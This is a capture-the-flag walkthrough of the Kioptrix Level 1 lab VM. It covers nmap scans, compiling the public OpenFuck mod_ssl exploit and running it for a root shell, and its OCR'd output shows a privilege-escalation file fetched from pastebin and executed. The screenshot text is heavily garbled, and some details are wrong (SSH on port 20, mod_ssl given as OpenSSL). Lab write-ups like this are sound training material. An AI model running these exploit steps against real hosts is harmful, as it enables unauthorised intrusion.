

kali@kali:~$ ip address
![File Actions Edit View Help
kaliakali ip address
10: <LOOPBACK, UP, LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
link/loopback øø:øø:øø:øø:øø:øø brd øø:øø:øø:øø:øø:øø
1/8 scope host 10
inet
valid_lft forever preferred_lft forever
1/128 scope host
inet6
valid_lft forever preferred_lft forever
etho: mtu 1500 qdisc pfifo_fast state UP group default glen 1000
link/ether brd
/24 brd
inet
scope global dynamic noprefixroute etho
10.0.0.4
10.0.0.255
valid_lft 375sec preferred_lft 375sec
/64 scope link noprefixroute
inet6
fe80 aoo:27ff: fe5c:6526
valid_lft forever preferred_lft forever
kaliakali : —](images/qejguvixjd.png)
We can use Nmap to scan the local subnet and discover any hosts that are running. Since only Kali and the Kioptrix are running on this network, they should be the only two hosts up. After running the scan, nmap reports two hosts available. 10.0.0.4 is Kali. This must mean that the Vulnerable Kioptrix machine is 10.0.0.11.
kali@kali:~$ nmap 10.0.0.0/24
![File Actions Edit View Help
kaliakali nmap 10.ø.ø.ø/24
starting Nmap 7.91 ( httos://nmao.org ) at 2020-11-02 14:28 PST
Nmap scan report for 10.ø.ø.1
Host is up (0.0018s latency).
Not shown: 999 closed ports
PORT STATE SERVICE
53/tcp open domain
Nmap scan report for 10.ø.ø.4
Host is up (ø.øø22s latency).
All 1000 scanned ports on 10.0.0.4 are closed
Nmap scan report for 10.ø.ø.11
Host is up (0.0017s latency).
Not shown:
PORT
22/tcp
80/tcp
Ill/tcp
139/tcp
443/tcp
32768/tcp
Nmap done:
994
STATE
open
open
open
open
open
open
256
closed ports
SERVICE
ssh
http
rpcbind
netbios-ssn
https
filenet-tms
IP addresses (3 hosts up) scanned in 3.25 seconds](images/rlbnxyjvnl.png)
The preliminary scan showed 6 ports open. We'll do a more in depth scan and confirm some of the services. Right now we aren't focused on stealth. We're trying to see how and where to make our entry point to the machine.
kali@kali:~$ nmap -A -p- -T4 10.0.0.11
![nmap -A -p- -T4 10.ø.ø.11
kaliakali
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-02 14:32 PST
Nmap scan report for 10.ø.ø.11
Host is up (0.0017s latency).
Not shown: 65529 closed ports
PORT
22/tcp
STATE SERVICE
open ssh
VERSION
OpenSSH 2.9p2 (protocol 1.99)
ssh-hostkey:
1024 (RSAI)
1024 (OSA)
1024 (RSA)
_sshvl: Server supports SSHv1
80/tcp
Apache httpd 1.3.20 ((Unix)
(Red-Hat/Linux) mod_ssI/2.8.4 OpenSSL/ø.9.6b)
open http
http-methods :
Potentially risky methods: TRACE
_http-server-header: Apache/1.3.20 (Unix)
(Red-Hat/Linux) mod_ss1/2.8.4 OpenSSL/ø.9.6b
http-title: Test Page for the Apache Web Server on Red Hat Linux
Ill/tcp
2 (RPC #løøøøø)
open rpcbind
rpcinfo:
program
1 øøøøø
1 øøøøø
100024
100024
version
port/proto service
Ill/tcp
rpcbind
Ill/udp
rpcbind
32768/tcp
status
32768/udp
status
139/tcp
open netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp
open ssl/https Apache/l .3.20 (Unix)
(Red-Hat/Linux) mod_ss1/2.8.4 OpenSSL/ø.9.6b
_http-server-header: Apache/1.3.20 (Unix)
(Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/ø.9.6b
_http-title: 400 Bad Request
ssl-cert: Subject: commonName=IocaIhost
Not valid before:
Not valid after:
2010-09-26T09:32 : 06
_ssl-date: *4h59m59s from scanner time.
sslv2:
SSLv2 supported
ciphers:
SSL2
SSL2
SSL2
SSL2
SSL2
SSL2
SSL2
RC4
RC2
RC4
RC4
RC2
DES
32768/tcp open
128 WITH MD5
128 cac WITH MD5
128 EXPORT40 WITH MD5
64 WITH MD5
128 cac EXPORT40 WITH MD5
64 CBC WITH MD5
1 (RPC #100024)
status
Host script results:
_ clock-skew: 4h59m58s
_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
_smb2-time: Protocol negotiation failed (SMB2)
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.46 seconds](images/plywaqqqdn.png)
This report takes much longer, but provides much more granular detail. Here we can see that this machine is running SSH (port 20), an Apache Web Services (ports 80 and 443), RPC Service (ports 111 and 32768), and Samba (port 139). We can also tell that this is a Red Hat linux box.
From the list of open ports I know that Samba is likely going to be where our vulnerabilities exist. This is a very vulnerable service and almost always should be disabled and should never be open on an internet facing network. Since there is a webserver running, we should check that out first.
![Test Page for the Apache Web Server on Red Hat Linux - Mozilla Firefox
Test Page for the Apache We X
Kali Linux - Kali Training
Kali Tools
https://
10.0.0.11
•b Kali Docs @phpMyAdmin
Kali Forums
NetHunter
n Offensive Security •e Exploit-DB
•S, GHDB
n MSFU
[Free] HackTheBox Unm @ HackTheBox Unbalanc...
Test Page
This page is used to test the proper operation of the Apache Web server after it has been installed. If you can read this page, it means that the Apache Web server installed at this site is working properly.
If you are the administrator of this website:
You may now add content to this directory, and replace this page. Note that until you do so, people visiting your website will see this page, and not your content.
Ifyou have upgraded from Red Hat Linux 6.2 and earlier, then you are seeing this page because the default DocumentRoot set in /etc/httpd/conf/httpd.conf has changed. Any subdirectories which existed under /home/httpd should now be moved to /var/ww. Alternatively, the contents of /var/www can be moved to
/home/httpd, and the configuration file can be updated accordingly.
If you are a member of the general public:
The fact that you are seeing this page indicates that the website you just visited is either experiencing problems, or is undergoing routine maintenance.
Ifyou would like to let the administrators of this website know that you've seen this page instead of the page you expected, you should send them e-mail. In general, mail sent to the name "webmaster" and directed to the website's domain should reach the appropriate person.
For example, if you experienced problems while visiting www.example.com, you should send e-mail to "webmaster@example.com".
The Apache documentation has been included with this distribution.
For documentation and information on Red Hat Linux, please visit the Red Hat, Inc. website. The manual for Red Hat Linux is available here.
You are free to use the image below on an Apache-powered Web server. Thanks for using Apache!
You are free to use the image below on a Red Hat Linux-powered Web server. Thanks for using Red Hat Linux!
redhat](images/euflddwtoz.png)
A test page is not necessarily a vulnerability, but it does speak to the security hygiene of the box. If they left a test page open, what else might they have? Default credentials? Default file paths?
I always make a habit of checking the source code for these types of machines, sometimes the creators will leave helpful hints. Unfortunately not in this case, that too was left as default.
Hoping for a login page of some kind and not finding anything particularly useful, it was time to move from the website being served and look back at the webserver and continue enumerating.
Apache 1.3.20 is a significantly outdated software version, the current version is somewhere around 2.4.46 (as or November 2020). This may be a good place to explore further. As I continued to enumerate I found the OpenSSL 2.8.4 is not only outdated, but has a known vulnerability which allows for Remote Code Execution by way of a buffer overflow. The exploit is outdated unfortunately, but some nice soul has brought it up to date and created a github for it.
https://github.com/heltonWernik/OpenLuck
Installing the script is straightforward thanks to the person that updated it. Follow the instructions from the git hub or look at the screenshots below.
When I install or download new repos from github I almost always change directories to be in the /opt/ folder and start the clone there.
![cd /opt
kaliakali :/opt$ sudo git clone https://github.com/he1tonWernik/OpenFuck.git
Cloning into 'OpenFuck'
remote: Enumerating objects: 26, done.
remote: Total 26 (delta 0), reused 0 (delta 0), pack-reused 26
Unpacking objects: 100% (26/26), 14.12 KiB | 249.00 KiB/s, done.
kaliakali :/opt$ sudo apt-get install Iibssl-dev
Reading package lists
Done
Building dependency tree
Reading state information
Done
libssl-dev is already the newest version (1.1.1g-1).
The following packages were automatically installed and are no longer required:
libcdi018 libcfitsi08 libcharls2 libgtksourceview2.ø-ø libgtksourceview2.ø-common Iibjsoncppl libmpdec2 Iibpgm-5.2-ø libpoppler82 Iibprotobuf22
libproxychains3 libsnmp35 libsrtl-gnutls libtsk13 libx264-155 libx264-159 libyara3 openjdk-8-jre proxychains python-cairo python-chardet python-dbus
python-enchant python-gi python-gobject-2 python-gtk2 python-gtksourceview2 python-numpy python-pkg-resources python3-flask-restless python3-grequests
python3-mimeparse python3-mimerender
Use 'sudo apt autoremove' to remove them.
0 upgraded, 0 newly installed, 0 to remove and 12 not upgraded.
kaliakali :/opt$ cd OpenFuck/
kaliakali :/opt/OpenFuck$ sudo gcc -o OpenFuck OpenFuck.c -Icrypto
kaliakali : /opt/OpenFuck$](images/yrnitdnbdq.png)
Running the application without any arguments provides a list of the vulnerable systems and the associated memory block that will be used to complete the exploit. Since this is a buffer overflow exploit it's important to have the right version loaded. For this machine, we don't know exactly what OS version that is being used but we did gather it is a Red-Hat version higher than 6.2. The Nmap scan confirmed a Red-Hat OS and the website test page included verbiage indicating that the current version could have been upgraded from 6.2 or earlier. If we grep the results of the application with the apache version we know is being used and combine that with some of that information we've gathered, we should be able to try this exploit and see if it works.

For this exploit to work we should try 0x6a and 0x6b since those are the only redhat versions for apache 1.3.20.
kali@kali:/opt/OpenFuck$ ./OpenFuck 0x6a 10.0.0.11
![kaliakali :/opt/OpenFuck$ ./OpenFuck øx6a 10 .ø.ø.ll
* OpenFuck v3.ø.32-root priv8 by SPABAM based on openssl-too-open *
*
by SPA8AM
with code of Spabam - LSD-pl
SolarEclipse
CORE *
#hackarena irc.brasnet.org
TNX Xanthic USG #SilverLords #8100dBR #isotk #highsecure #uname *
#10N #delirium #nitrøx #coder #root #endiabradøs #NHC #TechTeam *
#pinchadoresweb HiTechHate DigitalWrapperz GAT ButtP!rateZ *
Establishing SSL connection
cipher: øx4043808c
ciphers:
Ready to send shellcode
Spawning shell
Good Bye!
øx80fc4cø](images/vrxgegnhvm.png)
Using the input 0x6a, I ran the script and it attempted to connect but it doesn't seem to respond. I tried a few times but it wasn't able to work. No shell was spawned. We should try again using 0x6b.
kali@kali:/opt/OpenFuck$ ./OpenFuck 0x6b 10.0.0.11
![kaliakali :/opt/OpenFuck$ ./OpenFuck øx6b 10.0.0.11
* OpenFuck v3.ø.32-root priv8 by SPABAM based on openssl-too-open *
*
by SPABAM
with code of Spabam - LSD-pl
SolarEclipse - CORE *
#hackarena irc.brasnet.org
TNX Xanthic USG #SilverLords #8100dBR #isotk #highsecure #uname *
#10N #delirium #nitrøx #coder #root #endiabradøs #NHC #TechTeam *
#pinchadoresweb HiTechHate DigitalWrapperz GAT ButtP!rateZ *
Establishing SSL connection
cipher: Ox4043808c
ciphers: 0*8104280
Ready to send shellcode
Spawning shell
bash: no job control in this shell
bash-2.05$
race-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c;
https : //pastebin.com/raw/C7v25Xr9
•ptrace-kmod.c'
Connecting to pastebin.com:443
connected!
HTTP request sent, awaiting response
200 OK
Length: unspecified [text/plain]
23:25:47 (491.46 KB/s)
-ptrace-kmod.c' saved [4026]
ptrace-kmod.c:183:1: warning: no newline at end of file
Attached to 2070
Waiting for signal
Signal caught
Shellcode placed at øx4001189d
Now wait for suid shell
./p;
m/raw/C7v25Xr9
491.46 KB/s
-O pt](images/krpqhpucol.png)
After a few unsuccessful attempts I was able to successfully spawn a shell.
Surprisingly, this exploit provides full root access immediately.

However, escaping the TTY shell with echo os.system('/bin/bash') caused the shell to drop down to the apache user. A lesson that the shells gained from an exploit which was temperamental to start will not be terribly reliable. You might need to retry the exploit again if the shell drops for any reason. However, with this it's safe to say we have rooted this machine and it is now ours. We could load malicious websites, change the root password, delete system files, and more.
To avoid this kind of exploit, updating to more recent software would eliminate the buffer exploit. The versions provided in the exploit we found were numerous, but if we can upgrade our OS or the server version either would eliminate the exploit from occurring.
![Nevv Settings
S Gene
Name:
Discard
KJoptrixI
Operating System: Linux 2.6 3. x 4. x (32-bit)
Syste m
Base Memor
Soot Order:
Acceleration:
Display
Video Memory:
512 Ma
Hard Disk
VT-x/AMD-V, Nested Paging, KW Paravirtualizabon
Graphics Controller:
Remote Desktop Server:
Recor ding:
Sto rage
Controller: SATA
VMSVGA
Disabled
Disabled
IDE Primary Master: KJoptxLeveI I. vmdk Clormal, 3.00 GE)
Host Driver: Windows Dir ectSound
controller: ICH Acg7
Network
Adapter I: PCnet-PCIII OAT NeWNork, 'Nat'eWNork')
Shared folders
Description](images/qqthppfzpq.png)
![Kioptrixl [Running] - Oracle VM Virtua180x
File Machine View Input Devices Help
elcome to Kioptrix Level 1 Penetration and assessment Environment
--The object of this game:
_ acquire '"root" access to this machine.
here are many ways this can be done, try and find more then one way to
appreciate this exercise.
DISCLAIMER: Kioptrix is not resposible for any damage or instability
caused by running, installing or using this UM image.
se at your own risk.
WARNING: This is a vulnerable system, DO NOT run this OS in a production
environment. Nor should you give this system access to the outside world
(the Internet
or Interwebs. . )
ood luck and have fun!
ioptrix login:
El Right ctrl](images/mqqyneqtrp.png)